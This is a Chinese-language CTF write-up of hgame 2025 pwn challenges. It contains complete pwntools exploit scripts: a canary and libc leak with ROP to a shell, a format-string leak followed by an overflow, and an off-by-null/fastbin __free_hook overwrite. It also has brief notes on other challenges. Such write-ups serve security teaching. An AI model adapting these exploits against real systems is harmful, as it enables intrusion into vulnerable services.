 # hgame 2025 pwn writeup(部分)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/IMG_718720250205-203749.jpg)

os：太久没做了老犯蠢

## w1

#### ***counting petals\***

漏洞在于向v7中读取数据的过程中存在溢出可以覆盖v8，从而修改v8为某个大于16的值，最后泄露地址，然后在第二次循环时故技重施直接溢出弹shell

![img](../images/hgame1.png)

```
from pwn import *
#io = process('./vuln')
io = remote('119.45.167.173',31519)
libc = ELF('libc.so.6')
elf = ELF('./vuln')
context(os='linux',arch='amd64',log_level='debug')
log.info("first times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'99')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'429496729699')
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.recvuntil(b' + 429496729699 + ')
canary = int(io.recvuntil(b' ',drop=True),10) 
io.recvuntil(b'+ 1 + ')
libc_base = int(io.recvuntil(b' ',drop=True),10) -0x7fcf70b1dd68 + 0x7fcf70af4000 -0x28
log.info("libc_base : "+str(hex(libc_base)))

sys_addr = libc.symbols['system']+libc_base
binsh = next(libc.search(b'/bin/sh')) + libc_base
pop_rdi_ret = 0x2a3e5 +  libc_base
ret = 0x29139 + libc_base 
log.info("second times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'21')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'68719476758')
io.sendlineafter(b' : ',str(canary).encode())
io.sendlineafter(b' : ',b'0')
io.sendlineafter(b' : ',str(pop_rdi_ret).encode())
io.sendlineafter(b' : ',str(binsh).encode())
io.sendlineafter(b' : ',str(ret).encode())
io.sendlineafter(b' : ',str(sys_addr).encode())
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.interactive()
```

![img](../images/hgame2.png)

#### ***ezstack\***

虚拟机配docker一直起不来，大概说下思路，感觉应该是先栈迁puts(puts@got)然后再迁一次ORW

#### ***format\***

漏洞在于vuln函数整数解析错误可以溢出，溢出可以覆盖format[4]、v5、v6、i，然后直接改返回地址到循环内最后一次printf的地址，这样就可以利用我们覆盖的数据泄露libc地址，最后再通过vuln函数溢出

![img](../images/hgame3.png)

```
from pwn import *
#io = process('./vuln')
io = remote('node2.hgame.vidar.club',30453)
elf = ELF('./vuln')
libc = ELF('libc.so.6')
context(os='linux',arch='amd64',log_level='debug')
log.info("use FMT to leak some addr")
io.sendlineafter(b' n = ',b'1')
sleep(0.1)
io.sendlineafter(b'type something:',b'%p')
sleep(0.1)
io.recvuntil(b'you type: ')
rbp_addr = int(io.recvuntil(b'y',drop=True).decode(),16)+0x7ffe63ae45d0-0x7ffe63ae4410 + 0x7ffcef294e90 -0x7ffcef292f20
log.info("leak_rbp_addr : "+str(hex(rbp_addr)))
log.info("Okay! Let's overflow!!!")
io.sendlineafter(b' n = ',b'-1')
io.send(b'a'*5+p64(rbp_addr)+p64(0x4012cf)+b'%3$p'+p32(0xffffffff)+p64(0))
io.recvuntil(b'something:')
libc_addr = int(io.recvuntil(p32(0xffffffff),drop=True).decode(),16)-0x7f1865be66dd+0x7f1865ae0000+0x3000+0x7f1947000000-0x7f1947011105
log.info("libc_addr : "+str(hex(libc_addr)))
log.info("Okay! Let's overflow the second times!!!")
sys = libc_addr + libc.symbols['system']
binsh = libc_addr + next(libc.search(b'/bin/sh'))
pop_rdi_ret = 0x2a3e5 + libc_addr
ret = 0x29139 + libc_addr
#gdb.attach(io)
log.info("rdi_addr : "+str(hex(pop_rdi_ret)))
log.info("binsh_addr : "+str(hex(binsh)))
log.info("sys_addr : "+str(hex(sys)))
pl = b'a'*4
pl += p64(rbp_addr)
pl += p64(pop_rdi_ret)
pl += p64(binsh)
pl += p64(ret)
pl += p64(sys)
io.send(pl)
io.interactive()
```

![img](../images/hgame4.png)

#### ***Compress dot new\***

有时候不得不感慨deepseek是真的强，直接就把揭秘脚本嗦出来了

![img](../images/hgame5.png)

![img](../images/hgame6.png)

#### ***Turtle\***

需要先手动脱个壳，然后丢给deepseek

os:deepseek…, 这就是神吗…

![img](../images/hgame7.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-10.png)

![img](../images/hgame8.png)

***Level 24 Pacman\***

先禁止JS执行，F12看到后台两个JS文件，穿过去看到两串疑似flag的密文，base64+Fence解密

![img](../images/hgame9.png)

# w2

#### **Signin2Heap\**

off-by-null + fastbin attack

```
from pwn import *
io = process('./vuln')
context(os='linux',arch='amd64',log_level='debug')
libc = ELF('libc-2.27.so')
a = str(chr(0))
b = str(chr(1))
c = str(chr(2))
d = str(chr(3))
def add(idx,size,con):
    io.sendafter(b'Your choice:',(b+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
    io.sendlineafter(b'Size: ',str(size).encode())
    io.sendafter(b'Content: ',con)
 
def free(idx):
    io.sendafter(b'Your choice:',(c+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())

def show(idx):
    io.sendafter(b'Your choice:',(d+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
log.info("leak_addr && off_by_one")
for i in range(7):
    add(i,0xf8,b"aaaa")
add(7,0xf8,b"7")#7
add(8,0x68,b"8")#8
add(9,0xf8,b"9")#9
add(10,0x68,b'10')

for i in range(7):
    free(i)
free(8)
free(7)
add(0,0x68,b"a"*0x60+p64(0x70+0x100))
free(9)
add(7,0x78,b'aaaa')
add(8,0x78,b'aaaa')
show(0) #key
libc_addr = u64(io.recvuntil(b'\x0a',drop=True).ljust(8,b'\x00')) + 0x7f2bf4a00000 - 0x7f2bf4debca0
log.info("libc addr: "+str(hex(libc_addr)))
free_hook = libc_addr + libc.symbols['__free_hook']
sys_addr = libc_addr + libc.symbols['system']
log.info("free_hook addr: "+str(hex(free_hook)))
log.info("sys_addr addr: "+str(hex(sys_addr)))
add(15,0x68,b'b')
free(7)
free(8)
log.info("fastbins attack")
for i in range(1,8):
    add(i,0x68,b'1')
for i in range(1,8):
    free(i)
free(15)
free(10)
free(0)
for i in range(1,8):
    add(i,0x68,b'a')
add(14,0x68,p64(free_hook))
add(13,0x68,b'/bin/sh\x00')
add(12,0x68,b'/bin/sh\x00')

add(11,0x68,p64(sys_addr))
free(13)
gdb.attach(io)
io.interactive()
```

![img](../images/hgame10.png)

***Where is the vulnerability\***

house of apple2 + orw

